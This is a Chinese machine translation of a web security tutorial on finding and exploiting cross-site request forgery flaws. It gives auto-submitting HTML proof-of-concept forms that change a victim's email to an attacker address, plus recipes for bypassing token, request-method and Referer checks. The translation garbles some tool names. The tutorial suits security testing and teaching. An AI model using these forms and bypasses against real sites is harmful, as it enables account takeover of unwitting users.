


# 理解和利用:跨站点请求伪造— CSRF 漏洞

> 原文：<https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71?source=collection_archive---------0----------------------->

跨站点请求伪造(CSRF)是一种攻击，它迫使最终用户在他们当前通过了**身份验证的 web 应用程序上**执行非预期的动作**。**通过一点社会工程，攻击者可以强迫 web 应用程序的用户执行攻击者选择的**动作。**

> **跨站点脚本(或 XSS)** 允许攻击者在受害用户的浏览器中执行任意 JavaScript。
> 
> **跨站点请求伪造(或 CSRF)** 允许攻击者诱导受害用户执行他们不想执行的操作。

*会议骑行:OWASP 测试指南*

CSRF 依赖于**认证会话，**如果受害者登录到易受攻击的应用程序，并被诱骗打开恶意的 URL 或页面，浏览器将自动附上 cookies 和生成的请求，以证明请求的真实性，因为这就是浏览器的工作方式。

## **理解:跨域请求:**

**同源策略**并不禁止一个网站向不同的域发出请求。然而，它确实**阻止发起网站处理对跨域请求的响应**。于是，CSRF 的攻击通常都是“**单向**而已。，攻击者可以诱使受害者发出 HTTP 请求，但他们无法从该请求中检索到响应。

# 在测试 CSRF 漏洞时要寻找什么？

可能使应用程序易受 CSRF 攻击的几点:

1.  该请求执行一个**特权**动作。
2.  应用程序仅仅依靠 HTTP cookies 来跟踪会话。
3.  **没有会话相关的令牌**在请求中的其他地方传输。
4.  攻击者可以**确定执行该动作所需的所有参数**。
5.  除了 cookie 中的会话令牌之外，**请求中不需要包含不可预测的值**。

## **查找 CSRF 漏洞的步骤:**

1.  找到一个代表不知情的用户执行敏感动作的**函数**，该函数**完全依赖 cookie**来跟踪用户会话。
2.  看看它是否在请求参数中使用了**任何攻击者可以提前完全确定的不可预测的令牌**。
3.  **创建一个 HTML 页面*** 发布所需的请求，无需任何用户
    交互。
4.  对于 **GET** 请求，您可以放置一个 **< img >** 标记，将 **src**
    属性设置为易受攻击的 URL。
    ``
5.  对于 POST 请求，您可以创建一个**表单**，其中包含攻击所需的所有相关参数的隐藏字段，并将其目标设置为易受攻击的 URL。
    `<form action=”https://victim.net/email/update" method=”POST”>
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>`
6.  您可以使用 JavaScript 在页面加载后立即自动提交表单。
7.  登录到应用程序后，使用同一个浏览器加载您制作的
    HTML 页面。
8.  验证在
    应用程序中执行了所需的操作。

*如果涉及大量参数，生成一个 HTML 页面可能是一项单调乏味的任务。所以，你可以一直:
1。使用内置在[打嗝套件专业](https://portswigger.net/burp/pro)
2 中的 [**CSRF PoC 生成器**](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc) 。或者使用**在线 CSRF PoC 生成器**像[安全。爱](https://security.love/CSRF-PoC-Genorator/)还是 [CSRF PoC Gen](http://online.attacker-site.com/html5/csrf_generator/csrf_poc_gen.html) 。

# 利用 CSRF 漏洞:

1.  **没有防御的 CSRF 漏洞** 在没有提供唯一令牌来触发操作的情况下，使用以下示例 HTML 代码来生成 CSRF PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>
    
    </body>
    </html>`
2.  **CSRF，令牌验证取决于请求方法** 在请求与 HTTP 方法绑定的情况下，尝试用 GET 替换 POST，检查它是否仍然触发动作，使用下面的示例 HTML 代码生成 CSRF PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”GET” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>
    
    </body>
    </html>`
3.  **CSRF，其中令牌验证取决于令牌是否存在** 在应用发布 CSRF 令牌的情况下，但**并未授权它**。从请求&中删除 csrf 参数，检查它是否仍然触发动作，如果是。然后使用 CSRF 漏洞中陈述的 HTML 代码生成 PoC，不进行任何防御。
4.  **CSRF，其中令牌不绑定到用户会话** 在应用程序发布 CSRF 令牌，但不将其与用户会话绑定的情况下。**在请求&的 csrf 参数中提供您的 csrf 令牌**值，检查它是否仍然触发动作，如果是。然后以类似的方式生成 PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    <input type=”hidden” name=”csrf” value=”your_csrf_token” /></form>
    
    </body>
    </html>`
5.  **CSRF，其中令牌被绑定到非会话 cookie** 在应用发布 CSRF 令牌的情况下，它甚至被绑定到 cookie(csrf_cookie)，但是该 cookie 不用于跟踪会话。在请求&中提供您的 csrf_cookie & csrf 令牌值，检查它是否仍然触发动作，如果是。然后以类似的方式生成 PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    <input type=”hidden” name=”csrf” value=”your_csrf_token” /></form>
    
    </body>
    </html>`
6.  **CSRF，其中令牌在 cookie 中被复制** 在应用发布 CSRF 令牌的情况下，它甚至被绑定到 cookie(csrf_cookie)，其中 cookie 不用于跟踪会话，但是 **csrf_cookie 是正在使用的 csrf 令牌**(或反之亦然)的一部分或与其相同。在请求&中提供您的 csrf_cookie & csrf 令牌值，检查它是否仍然触发动作，如果是。然后以与上述类似的方式生成 PoC。
7.  **CSRF，其中引用验证依赖于存在的头**
    在验证依赖于引用头的情况下。
    使用一个**元**标签`<meta name=”referrer” content=”never”>`来绕过推荐验证检查。然后以类似的方式生成 PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <meta name=”referrer” content=”no-referrer”>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>
    
    </body>
    </html>`
8.  **绕过 CSRF 验证**
    寻找弱的&可预测的 CSRF 令牌。请参考:

 [## 开放重定向和绕过 CSRF 验证-简化

### 开放重定向是未经验证的重定向和转发，当 web 应用程序接受不受信任的输入时，这是可能的…

medium.com](https://medium.com/bugbountywriteup/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a) 

**参考文献:**

 [## 什么是 CSRF(跨站请求伪造)？教程和示例|网络安全学院

### 在本节中，我们将解释什么是跨站点请求伪造，描述一些常见 CSRF 的例子…

portswigger.net](https://portswigger.net/web-security/csrf)